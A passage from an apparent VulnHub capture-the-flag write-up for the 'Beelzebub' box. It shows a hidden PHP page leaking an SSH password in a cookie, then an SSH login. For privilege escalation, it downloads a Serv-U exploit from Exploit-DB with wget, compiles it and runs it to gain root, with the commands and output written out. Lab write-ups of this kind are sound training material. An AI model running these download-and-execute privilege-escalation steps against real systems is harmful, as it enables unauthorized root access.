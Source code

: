Some manual enumeration leads us to http://beezlebub/d18e1e22becbd915b45e0e655429d487/wp-content/uploads/Talk%20To%20VALAK/index.php where we can enter commands to 'talk' to Valak. These just get echoed back and it doesn't seem like we can inject. However if we check Burp, we do get a cookie:

>Password=M4k3Ad3a1

Interesting! The box has phpmyadmin; doesn't work there. Tried wordpress login; nope. SSH? Yes.

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/beezlebub]
└─# ssh krampus@192.168.1.6                                                               
krampus@192.168.1.6s password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 5.3.0-53-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

388 packages can be updated.
266 updates are security updates.

Your Hardware Enablement Stack (HWE) is supported until April 2023.
Last login: Sat Mar 20 00:38:04 2021 from 192.168.1.7
{% endhighlight %}

Since we're here, let's look at the Valak thing:

{% highlight php %}
if (isset($_POST['name']) && ! empty($_POST['name'])) {
  $name = $_POST['name'];
  setcookie('Password', 'M4k3Ad3a1');
} else {
  $name = isset($_COOKIE['name']) ? $_COOKIE['name'] : '';
}
{% endhighlight %}

Doesn't seem like we had to do anything special to trigger this.

### Privesc
Our user left his bash_history showing how to privesc - not sure if intentionally or not! Anyway, we have **Serv-U** installed, and we can get root with it:

{% highlight shell %}
krampus@beelzebub:/dev/shm$ wget https://www.exploit-db.com/download/47009
--2021-09-12 13:29:46--  https://www.exploit-db.com/download/47009
Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.13
Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.13|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 619 [application/txt]
Saving to: ‘47009’

47009                                   100%[===============================================================================>]     619  --.-KB/s    in 0s      

2021-09-12 13:29:46 (113 MB/s) - ‘47009’ saved [619/619]

krampus@beelzebub:/dev/shm$ mv 47009 ./exploit.c
krampus@beelzebub:/dev/shm$ gcc exploit.c -o exploit
krampus@beelzebub:/dev/shm$ ./exploit 
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare),1000(krampus)